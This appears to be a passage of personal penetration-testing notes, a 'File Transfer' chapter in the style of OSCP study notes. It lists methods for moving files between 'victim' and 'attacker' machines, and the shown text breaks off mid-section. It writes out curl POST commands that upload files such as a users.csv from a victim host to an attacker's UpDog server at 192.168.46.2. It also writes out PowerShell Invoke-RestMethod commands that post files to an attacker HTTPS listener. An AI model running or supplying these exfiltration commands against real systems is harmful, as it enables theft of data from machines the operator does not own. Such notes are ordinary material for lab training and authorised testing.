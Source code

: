 

# Chapter 16 - File Transfer

[[#Uplouding files with UpDog]]
[[#Uploading files using HTTPS]]
[[#Uploading files using TFTP]]
[[#Uploading files using FTP]]
[[#Downloading files using FTP]]
[[#Downloading Files - Powershell]]
[[#Downloading Files - Curl wget]]
[[#Downloading Files - WGET VBS]]
[[#Downloading files using SSH (SCP)]]
[[#Downloading files using CertUtil]]
[[#Useful tips]]

# Uplouding files with UpDog
On attacker
https://github.com/sc0tfree/updog
`pip3 install updog`
`updog [-d DIRECTORY] [-p PORT] [--password PASSWORD] [--ssl]`

On Victim (linux and mac)

	curl -v -X POST -F "file=@/Users/gentleman/Desktop/;filename=filename.txt" -F "path=/home/kali/Desktop/oscp" https://192.168.46.2:4000/upload -k -u ":123"
	
	curl -v -X POST -F "file=@/<Path of the file on the target>;filename=filename.txt" -F "path=<Path shared by attacker machine>" https://<IP pf attacker>:<port>/upload -k -u ":<password>"
	
**Windows Victim**
	
	curl -v -X POST -F "file=@C:\Users\user\Desktop\users.csv;filename=users.csv" -F "path=/home/kali/Desktop/oscp" https://192.168.46.2:4000/upload -k -u ":123"
	
# Uploading files using HTTPS

This document explains how to upload files using powershell or curl (on the victim machine) to a python server on the (attacker machine)

This method uses HTTPS and Basic Auth.


## Upload file 

## Method 1 - Powershell command
	Invoke-RestMethod -Uri $uri -Method Post -InFile $uploadPath -UseDefaultCredentials
	
	Invoke-RestMethod -Uri https://192.168.46.1:4433 -Method Post -InFile file.txt -UseDefaultCredentials 

## Method 2 - Powershell script (tested for windows)
